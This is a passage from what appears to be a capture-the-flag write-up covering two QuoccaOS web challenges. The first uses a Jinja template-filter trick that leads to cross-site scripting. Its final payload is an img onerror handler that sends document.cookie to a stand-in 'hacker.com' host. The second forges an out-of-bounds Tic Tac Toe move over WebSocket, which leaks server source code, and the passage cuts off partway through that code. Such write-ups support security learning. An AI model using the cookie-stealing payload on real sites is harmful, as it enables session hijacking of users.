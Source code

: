 We can use `{{ config | string | truncate(1,True,'') | safe }}script{{ config | string | reverse | truncate(1,True,'') | safe }}alert(1);{{ config | string | truncate(1,True,'') | safe }}/script{{ config | string | reverse | truncate(1,True,'') | safe }}` to insert an unescaped `script` tag to the page, but this won't be executed as javascript because the DOM tree was already rendered.

Instead, we can use `<img src=x onerror=alert(1)>` to execute javascript.

Final payload: `{{ config | string | truncate(1,True,'') | safe }}img src=x onerror=fetch('https://hacker.com/'+document.cookie){{ config | string | reverse | truncate(1,True,'') | safe }}`

Report to admin and we get a flag

#### Tic Tac Toe

![tictactoe](/blog/images/2020/09/qos_tictactoe.png)

A simple [Tic-Tac-Toe](https://en.wikipedia.org/wiki/Tic-tac-toe) game served over [WebSocket](https://en.wikipedia.org/wiki/WebSocket).

Moves and results are sent in JSON.

![websocket traffic](/blog/images/2020/09/qos_websocket.png)

The attack surface is rather small. Let's see if we can crash the server with invalid input.

To modify the websocket requests, one can set up a MiTM proxy (e.g., with Burp Suite), write your own client script, or just add a javascript breakpoint and modify QuoccaOS runtime variables.

<pre class="prettyprint">
Te.prototype.c = function() {
    L(Se, "making move " + this.x + " " + this.y);
    if (this.a.classList.contains("x-y-z")) {
        var a = this.b
          , b = ed({
            x: this.x,
            y: this.y,
            p: a.f
        });
        a.a.m.send(b) // this is where you want to set a breakpoint
    } else
        L(Se, "no longer clickable")
}
;
</pre>


Forge `{"x":4,"y":4,"p":"O"}` to the server (position out of board boundary) and we get:

<pre class="prettyprint">
// qos.js:formatted:849  [369.096s] [com.quoccabank.qos.tictactoe] stack trace is hard so here's the source code:
// rip mdn (https://twitter.com/SteveALee/status/1293487542382333952)
// did you know proto? i heard you can even inject them https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/proto

const readline = require("readline");
const fs = require("fs");
const MemcacheClient = require("memcache-client");

